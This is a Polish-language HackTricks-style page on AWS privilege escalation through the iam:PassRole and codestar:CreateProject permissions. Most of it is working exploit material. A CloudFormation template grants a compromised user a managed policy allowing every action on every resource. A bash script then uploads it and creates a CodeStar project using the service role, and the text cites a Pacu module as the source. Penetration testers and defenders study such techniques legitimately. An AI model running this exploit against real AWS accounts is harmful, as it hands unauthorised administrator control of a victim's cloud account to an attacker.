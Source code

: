 # iam:PassRole, codestar:CreateProject

{{#include ../../../../banners/hacktricks-training.md}}

Dzięki tym uprawnieniom możesz **nadużyć roli IAM codestar**, aby wykonać **dowolne działania** za pomocą **szablonu cloudformation**.

Aby to wykorzystać, musisz utworzyć **bucket S3, który jest dostępny** z zaatakowanego konta. Prześlij plik o nazwie `toolchain.json`. Plik ten powinien zawierać **eksploit szablonu cloudformation**. Można użyć następującego, aby ustawić zarządzaną politykę dla użytkownika pod twoją kontrolą i **przyznać mu uprawnienia administratora**:
```json:toolchain.json
{
"Resources": {
"supercodestar": {
"Type": "AWS::IAM::ManagedPolicy",
"Properties": {
"ManagedPolicyName": "CodeStar_supercodestar",
"PolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "*",
"Resource": "*"
}
]
},
"Users": ["<compromised username>"]
}
}
}
}
```
Również **prześlij** ten `empty zip` plik do **bucketu**:

{{#file}}
empty.zip
{{#endfile}}

Pamiętaj, że **bucket z oboma plikami musi być dostępny przez konto ofiary**.

Po przesłaniu obu rzeczy możesz teraz przejść do **eksploatacji**, tworząc projekt **codestar**:
```bash
PROJECT_NAME="supercodestar"

# Crecte the source JSON
## In this JSON the bucket and key (path) to the empry.zip file is used
SOURCE_CODE_PATH="/tmp/surce_code.json"
SOURCE_CODE="[
{
\"source\": {
\"s3\": {
\"bucketName\": \"privesc\",
\"bucketKey\": \"empty.zip\"
}
},
\"destination\": {
\"codeCommit\": {
\"name\": \"$PROJECT_NAME\"
}
}
}
]"
printf "$SOURCE_CODE" > $SOURCE_CODE_PATH

# Create the toolchain JSON
## In this JSON the bucket and key (path) to the toolchain.json file is used
TOOLCHAIN_PATH="/tmp/tool_chain.json"
TOOLCHAIN="{
\"source\": {
\"s3\": {
\"bucketName\": \"privesc\",
\"bucketKey\": \"toolchain.json\"
}
},
\"roleArn\": \"arn:aws:iam::947247140022:role/service-role/aws-codestar-service-role\"
}"
printf "$TOOLCHAIN" > $TOOLCHAIN_PATH

# Create the codestar project that will use the cloudformation epxloit to privesc
aws codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME \
--source-code file://$SOURCE_CODE_PATH \
--toolchain file://$TOOLCHAIN_PATH
```
To exploit ten uprawnienia opiera się na **eksploicie Pacu tych uprawnień**: [https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam\_\_privesc_scan/main.py#L1997](https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam__privesc_scan/main.py#L1997) Można w nim znaleźć wariant do stworzenia zarządzanej polityki administratora dla roli zamiast dla użytkownika.

{{#include ../../../../banners/hacktricks-training.md}}
